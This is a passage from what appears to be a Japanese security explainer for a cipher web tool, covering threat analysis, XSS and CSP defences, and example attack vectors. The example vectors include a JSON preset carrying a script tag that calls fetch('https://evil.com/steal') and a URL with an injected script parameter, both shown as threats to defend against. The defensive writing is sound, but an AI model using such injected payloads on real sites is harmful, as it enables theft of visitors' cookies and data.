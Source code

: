 # 🛡️ セキュリティ対策技術解説

**Columnar CipherLab** のセキュリティ実装について、XSS対策とCSP設定の技術的詳細を解説します。

---

## 📋 目次

- [🚨 脅威分析](#-脅威分析)
- [🛡️ XSS対策の実装](#️-xss対策の実装)
- [🔒 CSP設定による多層防御](#-csp設定による多層防御)
- [⚔️ 攻撃シナリオと対策効果](#️-攻撃シナリオと対策効果)
- [🔍 実装の技術的詳細](#-実装の技術的詳細)
- [✅ セキュリティテスト](#-セキュリティテスト)

---

## 🚨 脅威分析

### 📊 リスクレベル評価

**GitHub Pages公開前後のリスク変化**:

| 脅威 | 公開前 | 公開後 | 対策後 |
|------|--------|--------|--------|
| XSS攻撃 | 🟡 低 | 🔴 高 | 🟢 低 |
| 外部リソース注入 | 🟡 低 | 🔴 高 | 🟢 低 |
| データ窃取 | 🟢 極低 | 🔴 高 | 🟢 低 |
| リダイレクト攻撃 | 🟢 極低 | 🟡 中 | 🟢 低 |

### 🎯 想定攻撃ベクター

#### **1. ソーシャルエンジニアリング**
```
攻撃者: 「この暗号化ツール試してみて！」
被害者: 悪意のある文字列を平文に入力
結果: XSSが発動、Cookie等の機密情報が盗取される
```

#### **2. 悪意のあるリンク共有**
```
攻撃URL例:
https://your-site.github.io/columnar-cipherlab/?malicious=<script>...

結果: URLパラメータを介した攻撃
```

#### **3. 設定ファイル改ざん**
```javascript
// data/presets.json への攻撃
{
  "name": "普通のサンプル<script>fetch('https://evil.com/steal')</script>",
  "plaintext": "正常な文字列"
}
```

---